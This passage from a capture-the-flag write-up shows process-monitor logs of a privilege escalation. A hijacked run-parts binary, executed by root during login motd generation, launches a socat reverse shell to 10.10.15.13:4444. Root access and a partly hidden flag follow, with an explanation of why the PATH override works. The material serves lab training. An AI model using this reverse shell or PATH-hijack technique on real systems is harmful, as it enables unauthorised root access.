Checking back on the running __`./ppsy64s`__:

```pspy
2019/10/11 12:28:54 CMD: UID=0    PID=3735   | sshd: [accepted]
2019/10/11 12:28:54 CMD: UID=0    PID=3736   | sshd: [accepted]  
2019/10/11 12:28:58 CMD: UID=0    PID=3738   | sshd: jkr [priv]  
2019/10/11 12:28:58 CMD: UID=0    PID=3739   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/10/11 12:28:58 CMD: UID=0    PID=3740   | /bin/sh /usr/local/sbin/run-parts --lsbsysinit /etc/update-motd.d 
2019/10/11 12:28:58 CMD: UID=0    PID=3741   | socat TCP-CONNECT:10.10.15.13:4444 EXEC:sh,pty,stderr,setsid,sigint,sane 
```

The __`run-parts`__ binary was completely overridden and the creted reverse shell executed with __`UID=0`__:

```console
# id

  uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt

  eeba........................7226

```

Normally, overriding a binary by writing to another directory listed in the __`$PATH`__ variable with the same name wouldn't work. Every binary invoked is written on a cache which includes its absolute path. But since the __`run-parts`__ binary is being executed from scratch with __`/usr/bin/env -i`__, it was possible.
